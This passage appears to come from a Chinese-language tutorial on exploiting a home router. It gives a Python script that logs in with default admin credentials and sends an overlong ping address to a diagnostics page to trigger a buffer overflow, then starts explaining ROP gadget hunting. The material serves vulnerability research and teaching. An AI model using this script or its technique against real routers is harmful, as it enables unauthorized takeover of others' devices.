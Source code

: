 </b>![](./img/errorpage.png)


- 编写简单的脚本触发漏洞，也就是登录功能                               
```py
import base64
import hashlib
import urllib2
def login(ip,user,passwd):
  hash = hashlib.md5()
  hash.update(passwd)
  encode_string=base64.b64encode(user+":"+hash.hexdigest())
  url="http://"+ip+"/userRpm/LoginRpm.htm?Save=Save"
  request=urllib2.Request(url)
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
  data = response.read()
  next_url = "http://"+ip+'/'+data.split('\"')[3].split('/')[3]
  return (next_url,encode_string)
def exploit(url,encode_string):
  #get ping page
  new_url=url+'/userRpm/PingIframeRpm.htm'
  request=urllib2.Request(new_url)
  request.add_header('Referer',url+'/userRpm/DiagnosticRpm.htm')
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
  #ping test
  data=51*'a'
  next_url=url+'/userRpm/PingIframeRpm.htm?ping_addr='+data+'&doType=ping&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20'
  request=urllib2.Request(next_url)
  request.add_header('Referer',url+'/userRpm/DiagnosticRpm.htm')
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
if __name__ == '__main__':
  data=login('192.168.0.1','admin','admin')
  exploit(data[0],data[1])
```
### PART5 寻找gadgets
> 要想利用缓冲区溢出漏洞，目前主要的方法是 ROP(Return Oriented Programming)，其主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。